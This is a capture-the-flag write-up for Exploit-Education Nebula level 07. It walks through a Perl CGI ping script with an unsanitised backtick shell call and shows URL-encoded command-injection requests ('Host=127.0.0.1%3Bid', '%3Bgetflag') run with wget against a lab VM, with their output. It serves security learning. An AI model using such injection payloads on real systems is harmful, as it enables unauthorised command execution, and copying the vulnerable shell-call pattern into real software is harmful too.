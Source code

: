 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 07"
date:   2019-08-13 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
---   
```

### [Exploit Education Level 7](https://exploit.education/nebula/level-07/)

## Challenge
The `flag07` user was writing their very first perl program that allowed them to ping hosts to see if they were reachable from the web server.

To do this level, log in as the `level07` account with the password `level07`. Files for this level can be found in `/home/flag07`.

## Vulnerability
Lets take a look at the file

``` perl
level07@nebula:/home/flag07$ cat index.cgi
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
$host = $_[0];

print("<html><head><title>Ping results</title></head><body><pre>");

@output = `ping -c 3 $host 2>&1`;
foreach $line (@output) { print "$line"; }

print("</pre></body></html>");

} 
# check if Host set. if not, display normal page, etc

ping(param("Host"));

```
The perl script takes input from the user and do a ping and returns the result

There is a Command injection Vulnerability in the following line
```perl
@output = `ping -c 3 $host 2>&1`;
```
The value of variable `host` is provided by the user and the input is not sanitized. 
We can add additional commands using `;`

There is also another file named `thttpd.conf`. Lets see whats in it

``` apache
level07@nebula:/home/flag07$ cat thttpd.conf
# /etc/thttpd/thttpd.conf: thttpd configuration file

# This file is for thttpd processes created by /etc/init.d/thttpd.
# Commentary is based closely on the thttpd(8) 2.25b manpage, by Jef Poskanzer.

# Specifies an alternate port number to listen on.
port=7007

# Specifies a directory to chdir() to at startup. This is merely a convenience -
# you could just as easily do a cd in the shell script that invokes the program.
dir=/home/flag07

# Do a chroot() at initialization time, restricting file access to the program's
# current directory. If chroot is the compiled-in default (not the case on
# Debian), then nochroot disables it. See thttpd(8) for details.
nochroot
#chroot

# Specifies a directory to chdir() to after chrooting. If you're not chrooting,
# you might as well do a single chdir() with the dir option. If you are
# chrooting, this lets you put the web files in a subdirectory of the chroot
# tree, instead of in the top level mixed in with the chroot files.
#data_dir=

# Don't do explicit symbolic link checking. Normally, thttpd explicitly expands
# any symbolic links in filenames, to check that the resulting path stays within
# the original document tree. If you want to turn off this check and save some
# CPU time, you can use the nosymlinks option, however this is not
# recommended. Note, though, that if you are using the chroot option, the
# symlink checking is unnecessary and is turned off, so the safe way to save
# those CPU cycles is to use chroot.
#symlinks
#nosymlinks

# Do el-cheapo virtual hosting. If vhost is the compiled-in default (not the
# case on Debian), then novhost disables it. See thttpd(8) for details.
#vhost
#novhost

# Use a global passwd file. This means that every file in the entire document
# tree is protected by the single .htpasswd file at the top of the tree.
# Otherwise the semantics of the .htpasswd file are the same. If this option is
# set but there is no .htpasswd file in the top-level directory, then thttpd
# proceeds as if the option was not set - first looking for a local .htpasswd
# file, and if that doesn't exist either then serving the file without any
# password. If globalpasswd is the compiled-in default (not the case on Debian),
# then noglobalpasswd disables it.
#globalpasswd
#noglobalpasswd

# Specifies what user to switch to after initialization when started as root.
user=flag07

# Specifies a wildcard pattern for CGI programs, for instance "**.cgi" or
# "/cgi-bin/*". See thttpd(8) for details.
cgipat=**.cgi

# Specifies a file of throttle settings. See thttpd(8) for details.
#throttles=/etc/thttpd/throttle.conf

# Specifies a hostname to bind to, for multihoming. The default is to bind to
# all hostnames supported on the local machine. See thttpd(8) for details.
#host=

# Specifies a file for logging. If no logfile option is specified, thttpd logs
# via syslog(). If logfile=/dev/null is specified, thttpd doesn't log at all.
#logfile=/var/log/thttpd.log

# Specifies a file to write the process-id to. If no file is specified, no
# process-id is written. You can use this file to send signals to thttpd. See
# thttpd(8) for details.
#pidfile=

# Specifies the character set to use with text MIME types.
#charset=iso-8859-1

# Specifies a P3P server privacy header to be returned with all responses. See
# http://www.w3.org/P3P/ for details. Thttpd doesn't do anything at all with the
# string except put it in the P3P: response header.
#p3p=

# Specifies the number of seconds to be used in a "Cache-Control: max-age"
# header to be returned with all responses. An equivalent "Expires" header is
# also generated. The default is no Cache-Control or Expires headers, which is
# just fine for most sites.
#max_age=
```
There are few important parameters to take note here
```
user=flag07
dir=/home/flag07
port=7007
```
okay so its looks like there is a server on port `7007` waiting for input
Lets check for listening ports
```perl
level07@nebula:/home/flag07$ netstat -peanut
(No info could be read for "-p": geteuid()=1008 but you should be root.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode       PID/Program name
tcp        0      0 127.0.0.1:50001         0.0.0.0:*               LISTEN      987        11064       -        
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      0          10298       -        
tcp        0      0 0.0.0.0:10007           0.0.0.0:*               LISTEN      982        11071       -        
tcp        0      0 192.168.5.131:22        192.168.5.1:55546       ESTABLISHED 0          12866       -        
tcp6       0      0 :::22                   :::*                    LISTEN      0          10300       -        
tcp6       0      0 192.168.5.131:7007      192.168.5.1:55559       TIME_WAIT   0          0           -        
udp        0      0 0.0.0.0:68              0.0.0.0:*                           0          9411        -        

```
We can see that the server is listening on port 7007. Lets connect and try command injection with `id`

[Also for my nebula system the server running on 7007 is exiting or crashing a few minutes after restart. 
So you might have to restart your system before doing this challenge]

Lets connect to the server using `wget` and try command injection by adding `%3bid` (%3b is `;` in url encoded format) and save the output to `wget1`

``` bash
level07@nebula:~$ wget http://192.168.5.131:7007/index.cgi?Host=127.0.0.1%3Bid -O wget1
--2019-08-07 10:47:09--  http://192.168.5.131:7007/index.cgi?Host=127.0.0.1%3Bid
Connecting to 192.168.5.131:7007... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: `wget1'

[   <=>                                                                 ] 496          244B/s   in 2.0s

2019-08-07 10:47:11 (244 B/s) - `wget1' saved [496]

level07@nebula:~$ cat wget1
<html><head><title>Ping results</title></head><body><pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_req=1 ttl=64 time=0.018 ms
64 bytes from 127.0.0.1: icmp_req=2 ttl=64 time=0.033 ms
64 bytes from 127.0.0.1: icmp_req=3 ttl=64 time=0.045 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1999ms
rtt min/avg/max/mdev = 0.018/0.032/0.045/0.011 ms
uid=992(flag07) gid=992(flag07) groups=992(flag07)
```

Command injection is successful and the id belongs to `flag07`. So lets run `getflag` now

```bash

wget http://192.168.5.131:7007/index.cgi?Host=127.0.0.1%3Bgetflag -O flag
--2019-08-07 10:48:38--  http://192.168.5.131:7007/index.cgi?Host=127.0.0.1%3Bgetflag
Connecting to 192.168.5.131:7007... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: `wflag'

[   <=>                                                                 ] 504          251B/s   in 2.0s

2019-08-07 10:48:40 (251 B/s) - `wflag' saved [504]

level07@nebula:~$ cat wflag
<html><head><title>Ping results</title></head><body><pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_req=1 ttl=64 time=0.016 ms
64 bytes from 127.0.0.1: icmp_req=2 ttl=64 time=0.045 ms
64 bytes from 127.0.0.1: icmp_req=3 ttl=64 time=0.023 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1998ms
rtt min/avg/max/mdev = 0.016/0.028/0.045/0.012 ms
You have successfully executed getflag on a target account
```

### Solved!
